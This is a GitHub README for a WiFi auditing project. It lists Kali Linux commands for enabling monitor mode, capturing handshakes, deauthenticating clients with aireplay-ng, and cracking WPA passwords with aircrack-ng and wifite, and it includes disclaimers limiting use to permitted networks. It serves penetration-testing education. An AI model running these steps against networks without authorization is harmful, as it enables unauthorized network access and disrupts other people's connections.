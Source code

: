 # WiFi-Auditing-with-Kali-Linux

WiFi Auditing with Kali Linux
This repository contains scripts and instructions for WiFi auditing using Kali Linux tools like airmon-ng, wifite, and others. These tools allow you to test the security of WiFi networks by monitoring, capturing, and cracking passwords.

Note: This project is for educational purposes only. Do not use these tools on networks you do not own or have explicit permission to test.

Prerequisites
Before you begin, make sure you have the following installed:

Kali Linux: You can install Kali Linux on a physical machine or in a VirtualBox/VMware environment.
WiFi Adapter: A compatible external WiFi adapter capable of monitor mode and packet injection (e.g., Alfa AWUS036ACH).
Aircrack-ng: A complete suite of tools for WiFi network security auditing.
Wifite: An automated WiFi hacking tool that simplifies the use of various WiFi audit tools.


Tools Used
airmon-ng: To enable monitor mode on your WiFi adapter.
airodump-ng: To capture WiFi network packets.
aireplay-ng: For deauth attacks or packet injection.
wifite: To automate the auditing process.


Installation
Install the necessary tools:

bash

sudo apt update
sudo apt install aircrack-ng wifite
Check if your WiFi adapter supports monitor mode:

bash

sudo iwconfig
Enable monitor mode on your adapter:

bash

sudo airmon-ng start wlan0
Usage

Using wifite
Run wifite to start scanning for available WiFi networks:

bash

sudo wifite
Select the network(s) you wish to audit from the list displayed by wifite.

Wait for the attack to complete. Wifite will attempt different attacks based on the security type (WEP, WPA, etc.).

If successful, Wifite will crack the password and display it on the screen.

Manual WiFi Auditing
Start by placing your WiFi adapter in monitor mode:

bash

sudo airmon-ng start wlan0
Use airodump-ng to scan for networks:

bash

sudo airodump-ng wlan0mon
Target a specific network:

bash

sudo airodump-ng --bssid [BSSID] -c [CHANNEL] -w [OUTPUT] wlan0mon
Deauthenticate a client to capture the handshake:

bash

sudo aireplay-ng --deauth 10 -a [BSSID] wlan0mon

Crack the captured handshake:

bash

sudo aircrack-ng [OUTPUT].cap -w [WORDLIST]
Screenshots
Here are a few screenshots of the setup and usage:

Monitor mode enabled:


Scanning WiFi networks:


Successful password crack:


License
This project is licensed under the MIT License.

Disclaimer
This tool should only be used for ethical hacking purposes on networks you own or have permission to test. Unauthorized access to computer systems is illegal.
